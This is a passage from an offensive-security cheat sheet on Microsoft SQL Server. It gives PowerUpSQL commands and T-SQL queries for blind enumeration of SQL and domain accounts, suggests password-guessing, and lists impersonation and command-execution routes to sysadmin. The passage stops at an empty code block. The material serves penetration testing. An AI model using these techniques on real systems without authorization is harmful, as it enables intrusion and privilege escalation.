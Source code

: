   - [sqlmitm.py](https://gist.github.com/anonymous/edb02df90942dc4df0e41f3cbb78660b)

### Local or Domain User Perspective  

Try to login to SQL Servers with current account. Excessive login privileges are a common practice on enterprise network.  

  - ```import-module .\PowerUpSQL.psd1```.  
  - ```Get-SQLInstanceDomain | Get-SQLConnectionTest```.  
  - ```Get-SQLInstanceLocal | Get-SQLConnectionTest```.  
  - [PowerUpSQL Wiki](https://github.com/NetSPI/PowerUpSQL/wiki)  

### Public role --> Sysadmin Privileges.  

**1.Weak Paswords & Blind SQL Server Login Enumeration**  
If we attempt to list all SQL Server logins we will only see a subset of them. List all SQL Server logins:   

  - ```SELECT name FROM sys.syslogins```  
  - ```SELECT name FROM sys.server_principals```   

*suser_name* returns the principal name for a given principal id. SQL Logins can be identified by fuzzing the principal id value inside the *suser_name* function through the public role. Example Queries:  

  - ```SELECT SUSER_NAME(1)```  
  - ```SELECT SUSER_NAME(2)```  
  - ```SELECT SUSER_NAME(3)```   
  - ...  
  - Try weak passwords on those identified SQL Server Logins.  
  - ```Get-SQLFuzzServerLogin -Instance ComputerNAme\InstanceName``` --> PowerUpSQL Blind SQL Login Enum.  

Blind domain account/objects enumeration can be performed with the public role. This attack is very useful in case of remote SQL injection Attack.  

  - ```SELECT DEFAULT_DOMAIN() as mydomain``` --> Get the domain where SQL Server is.  
  - ```SELECT SUSER_SID('<Identified_Domain>\Domain Admins')``` --> Full RID of Domain Admins group.  
  - Grab the first 48 bytes of the full RID to get domain's SID. 
  - Create a new RID (will be associated with a domain object) by appending a hex number value to the previous SID.  
  - ```SELECT SUSER_NAME(RID)``` --> Get the domain object name associated to the RID.  
  ```Get-SQLFuzzDomainAccount -Instance ComputerNAme\InstanceName``` --> PowerUpSQL Blind Domain Account Enum.  

**2.Impersonation**  
Most commonly used ways of getting execution in the context of a user that has more privileges on a SQL server are:  

  - *Impersonate privilege*.  
  - *Stored Procedure and Trigger Creation / Injection Issues*.  
  - *Automatic Execution of Stored Procedures*.  
  - Agent Jobs.  
  - xp_cmdshell proxy account.  
  - Create Database Link to File or Server.  
  - Import / Install Custom Assemblies.  
  - Ad-Hoc Queries.  
  - Shared Service Accounts.  
  - Database Links.  
  - UNC Path Injection.  
  - Python code execution.  

*A. Impersonate Privilege* 

There is a privilege/permission in the SQL Server which allows a less privileged user to impersonate another with more access. Queries/Commands o be executed are not limited BUT the database has to be configured as trustworthy for OS command executiont o be achieved.  

  ```